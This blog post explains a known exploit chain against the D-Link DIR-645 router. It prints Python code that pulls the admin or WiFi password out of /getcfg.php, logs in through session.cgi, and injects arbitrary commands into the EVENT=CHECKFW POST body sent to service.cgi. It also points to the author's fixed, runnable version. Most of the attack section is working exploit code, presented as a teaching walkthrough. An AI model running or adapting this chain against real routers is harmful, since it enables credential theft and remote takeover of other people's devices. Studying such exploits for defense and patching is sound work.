 ```yaml
---
title: 'IoT security: CNVD-2018-01084(D-Link DIR 645)'
date: 2018-03-02 18:02:43
tags:
- IoT security
- 2018
---
```


Today, let’s talk about an exploitation in D-Link DIR 645 which is service.cgi arbitrary code execution vulnerability. This is said to be vulnerable in 615 and 815 as well but to be honest I only found the 645 can be exploited by this. So here is the PoC by Cr0n1c.
https://packetstormsecurity.com/files/145859/dlinkroutersservice-exec.txt

Now, let’s go through the code first so we can see what’s it actually doing.

In the PoC, the first vulnerability is an old one which is CWE-200 and it’s found in 2013. You can find a description here,
https://vuldb.com/?id.7843

So basically this bug is that if we make a request to <b><i>/getcfg.php</i></b> with the arguments as <b><i>SERVICES=DEVICES.ACCOUNT</i></b>, it will return the password of the router. And the corresponding codes in the PoC is:

{% codeblock lang:python %}
def attempt_password_find():
    # Going fishing in DEVICE.ACCOUNT looking for CWE-200 or no password
    data = query_getcfg("DEVICE.ACCOUNT")
    if not data:
        return False
 
    res = re.findall("<password>(.*?)</password>", data)
    if len(res) > 0 and res != "=OoXxGgYy=":
        return res[0]
 
    # Did not find it in first attempt
    data = query_getcfg("WIFI")
    if not data:
        return False
 
    res = re.findall("<key>(.*?)</key>", data)
    if len(res) > 0:
        return res[0]
 
    # All attempts failed, just going to return and wish best of luck!
    return False
{% endcodeblock %}

And I’ve got a router here which is D-Link DIR 645 and let’s try this vulnerability. 

{% asset_img 1.PNG %} 

And we can also get the password with this command line.
 
{% asset_img 2.PNG %} 

To be honest, we can login with the username <b><i>“user”</i></b> with no password on the type of router. So that’s it. Let’s went to the new vulnerability now. The second bug is that we can execute remote command using <b><i>“POST”</i></b> method and in the data part, we need to manipulate our command there. Let’s see the code of this part.

At the first, you need to create a session with the password you get just now.

{% codeblock lang:python %}
def create_session():
    post_content = {"REPORT_METHOD": "xml",
                    "ACTION": "login_plaintext",
                    "USER": "admin",
                    "PASSWD": PASSWORD,
                    "CAPTCHA": ""
                    }

    try:
        r = requests.post(URL + "/session.cgi", data=post_content, headers=HEADER)
    except requests.exceptions.ConnectionError:
        print "Error: Failed to access " + URL + "/session.cgi"
        return False

    if not (r.status_code == 200 and r.reason == "OK"):
        print "Error: Did not recieve a HTTP 200"
        return False

    if not re.search("<RESULT>SUCCESS</RESULT>", r.text):
        print "Error: Did not get a success code"
        return False

    return True
{% endcodeblock %}

After creating the session, you are able to execute the code then. Just manipulate the post_content.

{% codeblock lang:python %}
def send_post(command, print_res=True):
    post_content = "EVENT=CHECKFW%26" + command + "%26"
 
    method = "POST"
 
    if URL.lower().startswith("https"):
        handler = urllib2.HTTPSHandler()
    else:
        handler = urllib2.HTTPHandler()
 
    opener = urllib2.build_opener(handler)
    request = urllib2.Request(URL + "/service.cgi", data=post_content, headers=HEADER)
    request.get_method = lambda: method
 
    try:
        connection = opener.open(request)
    except urllib2.HTTPError:
        print "Error: failed to connect to " + URL + "/service.cgi"
        return False
    except urllib2.HTTPSError:
        print "Error: failed to connect to " + URL + "/service.cgi"
        return False
 
    if not connection.code == 200:
        print "Error: Recieved status code " + str(connection.code)
        return False
 
    attempts = 0
 
    while attempts < 5:
        try:
            data = connection.read()
        except httplib.IncompleteRead:
            attempts += 1
        else:
            break
 
        if attempts == 5:
            print "Error: Chunking failed %d times, bailing." %attempts
            return False
 
    if print_res:
        return parse_results(data)
    else:
        return data
{% endcodeblock %}

Ok, I got a router with this vulnerability and tested it, check this out.

{% asset_img 3.PNG %}

The original PoC has some problems and can't run on my kali. So I fixed it and you can run it with python2.7 . 

Get the code from my github.
https://github.com/samohyes/Exploitation

Any problem, please email me at <b><i>xudong_shao@hotmail.com</i></b>